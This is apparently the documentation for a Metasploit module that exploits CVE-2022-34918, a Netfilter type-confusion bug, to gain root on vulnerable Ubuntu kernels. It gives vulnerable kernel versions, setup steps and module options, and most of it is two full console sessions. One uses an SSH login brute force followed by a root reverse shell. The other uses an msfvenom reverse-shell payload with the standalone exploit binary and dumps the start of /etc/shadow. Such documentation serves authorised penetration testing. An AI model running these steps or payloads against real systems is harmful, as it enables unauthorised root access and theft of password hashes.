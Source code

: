 ## Vulnerable Application

This module exploits a vulnerability in Netfilter, the Linux Kernel component
that implements firewall capabilities in Linux.
The vulnerability is a type-confusion bug that leads to a heap overflow in kernel memory.
The exploit relies on spraying, it may fail, or crash the target system.

### Install

The vulnerability exists in linux kernel versions from `5.8-rc1` up to `v5.19-rc5`.
this module contains offsets for some vulnerable Ubuntu versions.

Install Ubuntu 22.04 LTS with a vulnerable kernel version.
`apt-get install linux-image-5.15.0-25-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target. Or setup openssh-server, and use the corresponding auxiliary module.
1. Get a session
1. Do: `use exploit/linux/local/netfilter_nft_set_elem_init_privesc`
1. Do: `set session <session_id>`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new session as the `root` user.
1. If it fails, retry, or reboot Ubuntu and retry.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### WritableDir

This indicates the location where you would like the payload and exploit binary stored.
The default value is `/tmp`

Due to the exploitation strategy that this module relies on, `/tmp` must be writable, even if
`WritableDir` is a different directory. `modprobe_path` gets overwritten with a path to a file
in `/tmp`. This file is a bash script that adds the setuid bit to the payload uploaded at
`WritableDir`.

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.0.40
rhosts => 192.168.0.40
msf auxiliary(scanner/ssh/ssh_login) > set username redouane
username => redouane
msf auxiliary(scanner/ssh/ssh_login) > set password user
password => user
msf auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.0.40:22 - Starting bruteforce
[+] 192.168.0.40:22 - Success: 'redouane:user' 'uid=1000(redouane) gid=1000(redouane) groupes=1000(redouane),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare) Linux hopeful-zhukovky 5.15.0-25-generic #25-Ubuntu SMP Wed Mar 30 15:54:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.0.32:46499 -> 192.168.0.40:22) at 2022-07-22 02:44:56 +0200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/netfilter_nft_set_elem_init_privesc
[*] Using configured payload linux/x64/shell_reverse_tcp
msf exploit(linux/local/netfilter_nft_set_elem_init_privesc) > set lhost wlan0
lhost => wlan0
msf exploit(linux/local/netfilter_nft_set_elem_init_privesc) > set session 1
session => 1
msf exploit(linux/local/netfilter_nft_set_elem_init_privesc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 192.168.0.32:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/tmp/z9G2XJ' (761240 bytes) ...
[*] Uploading payload...
[*] Writing '/tmp/AsfKz' (248 bytes) ...
[*] Running payload on remote system...
[+] Deleted /tmp/z9G2XJ
[+] Deleted /tmp/AsfKz
[*] Command shell session 2 opened (192.168.0.32:4444 -> 192.168.0.40:35956) at 2022-07-22 02:45:54 +0200

id
[*] Payload executed! If it was successful, a session should have been created

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),1000(redouane)
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-34918/ubuntu.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The exploit adds the setuid bit to the payload, the path given must be absolute, avoid binaries that don't run
when the setuid bit is detected.

Also, the exploit process forks, gets its child to execute the setuid payload binary, and exits
(it doesn't call `wait` or `waitpid`). For this reason, don't expect the binary to read input from standard input.

The following snippet shows an example of how one might run a payload to get
a new Bash shell as the `root` user.

```
redouane@wizardly-maxwell:~$ id
uid=1000(redouane) gid=1000(redouane) groups=1000(redouane),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)
redouane@wizardly-maxwell:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 PrependSetresuid=true PrependSetresgid=true -f elf -o payload
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
Final size of elf file: 216 bytes
Saved as: payload
redouane@wizardly-maxwell:~$ chmod +x payload
redouane@wizardly-maxwell:~$ (echo id; head -n 2 /etc/shadow) | nc -lvvp1337 &
[1] 2272
redouane@wizardly-maxwell:~$ Listening on 0.0.0.0 1337

redouane@wizardly-maxwell:~$ ./ubuntu.elf /home/redouane/payload
[+] kernel version '5.15.0-25-generic #25-Ubuntu' detected
[+] Second process currently waiting
[+] Get CAP_NET_ADMIN capability
[+] Netlink socket created
[+] Netlink socket bound
[+] Table table created
[+] Set for the leak created
[+] Set for write primitive created
[*] Leak in process
[+] Leak succeed
[+] kaslr base found 0xffffffff9f000000
[+] physmap base found 0xffff910a00000000
[+] modprobe path changed !
[+] Modprobe payload setup
[?] waitpid
[?] sem_post
[+++] Got root shell, should exit?
Connection received on localhost 56962
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),1000(redouane)
root:!:19193:0:99999:7:::
daemon:*:19101:0:99999:7:::
```
